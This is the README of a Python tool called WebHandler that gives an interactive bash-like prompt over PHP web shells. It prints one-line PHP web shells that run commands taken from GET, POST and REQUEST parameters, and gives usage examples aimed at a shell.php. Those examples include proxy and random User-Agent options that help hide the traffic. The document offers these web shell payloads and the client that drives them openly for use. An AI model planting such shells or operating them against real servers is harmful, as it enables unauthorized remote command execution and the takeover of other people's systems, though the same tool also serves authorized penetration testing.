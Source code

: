 
WebHandler - command controller for PHP system function
---
![My image](http://s9.postimage.org/6u4546aov/icommand.png)

### Info: ###
---
WebHandler is a command controller to handle PHP _program execution functions_ like system, passthru, exec and etc...
The script tries to simulate Linux bash as it works from CLI.
As of optional settings it supports HTTP proxy together with HTTP header values "User-Agent".
It sends requests to the server through urllib/urllib2 [Python][] modules.

* WebHandler works for **POST** and **GET** requests:
    - `<?php system($_GET['cmd']); ?>`
    - `<?php system($_POST['cmd']); ?>`
    - `<?php system($_REQUEST['cmd']); ?>`

### Usage: ###
---
* --url is a positional argument withing GET and POST requests:
    - python webhandler.py --url http://www.mywebsite.com/shell.php?cmd=
    - python webhandler.py --url http://www.mywebsite.com/shell.php --method POST --parameter cmd
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --random-agent
    - python webhandler.py -u http://www.mywebsite.com/shell.php?cmd= --proxy http://127.0.0.1:8080


__Requirements__
---
If your [Python][]'s version < 2.7.x
Then [argparse][] **is required**.

To install it run (as root):
`easy_install argparse` **OR** `pip --install argparse`



[readline][] **is optional**.

This module it used to provide elaborate line editing and history features

[Python]: http://www.python.org/download/
[argparse]: http://docs.python.org/library/argparse.html
[readline]: http://cnswww.cns.cwru.edu/php/chet/readline/rltop.html

